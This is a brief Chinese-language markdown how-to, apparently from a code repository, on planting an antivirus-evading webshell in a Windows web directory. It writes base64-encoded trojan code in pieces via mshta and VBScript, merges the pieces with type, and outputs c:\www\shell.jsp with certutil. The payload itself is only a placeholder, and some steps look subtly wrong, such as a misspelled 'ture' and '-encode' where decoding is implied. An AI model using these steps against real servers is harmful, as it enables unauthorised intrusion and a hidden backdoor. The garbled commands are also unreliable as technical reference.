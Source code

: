 # WWW权限写入Webshell免杀


**总体思路：使用mshta命令写入base64编码的js代码，以保留木马代码的特殊字符以及格式，分多段写入，然后使用type合并文件，最后使用certutil命令生成木马**

### 1. 使用mshta命令写入base64编码后的木马代码到服务器中

 mshta vbscript:createobject("scripting.filesystemobject").createtextfile("test1.txt",2,ture).writeline("ssss")(window.close)

 mshta vbscript:createobject("scripting.filesystemobject").createtextfile("test2.txt",2,ture).writeline("ssss")(window.close)

### 2. 合并文件

type test2.txt >> test1.txt

### 3. 合并木马文件

certutil -encode test1.txt c:\\www\\shell.jsp